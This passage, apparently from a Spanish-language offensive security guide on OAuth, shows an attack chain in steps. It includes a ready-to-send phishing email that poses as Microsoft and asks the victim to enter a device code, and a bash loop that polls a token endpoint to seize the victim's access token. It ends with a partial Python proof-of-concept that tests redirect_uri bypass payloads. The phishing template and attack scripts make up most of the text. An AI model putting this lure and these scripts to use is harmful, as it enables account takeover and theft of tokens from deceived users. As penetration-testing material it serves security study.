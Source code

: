 **Paso 2 - Phishing a la víctima:**

```
Asunto: Actualización requerida - Microsoft Word

Hola, 

Para continuar usando Microsoft Word, ingresa este código: WDJB-MJHT
en: https://microsoft.com/devicelogin

Equipo de Microsoft
```

**Paso 3 - Atacante hace polling:**

```bash
while true; do
  curl -s -X POST https://oauth-provider.com/token \
    -d "grant_type=urn:ietf:params:oauth:grant-type:device_code&device_code=GmRhmhcxhwAzkoEqiMEg_DnyEysNkuNhszIySk9eS&client_id=microsoft-word-client"
  sleep 5
done
```

Cuando la víctima autentica, el atacante obtiene access token válido.

---

## PoC Automatizada

### Script para redirect_uri bypass

```python
#!/usr/bin/env python3
import requests
import urllib.parse
from urllib.parse import urlparse, parse_qs

def test_redirect_uri_bypass(base_url, client_id, payloads):
    """
    Prueba bypass de redirect_uri con múltiples payloads
    """
    results = []
  
    for payload in payloads:
        params = {
            'client_id': client_id,
            'redirect_uri': payload,
            'response_type': 'code',
            'state': 'test123'
        }
      
        try:
            response = requests.get(f"{base_url}/authorization", 
                                  params=params, 
                                  allow_redirects=False)
          
            if response.status_code in [302, 200]:
                results.append({
                    'payload': payload,
                    'status': 'POTENTIAL_BYPASS',
                    'response_code': response.status_code,
                    'location': response.headers.get('Location', 'N/A')
                })
        except Exception as e:
            continue
```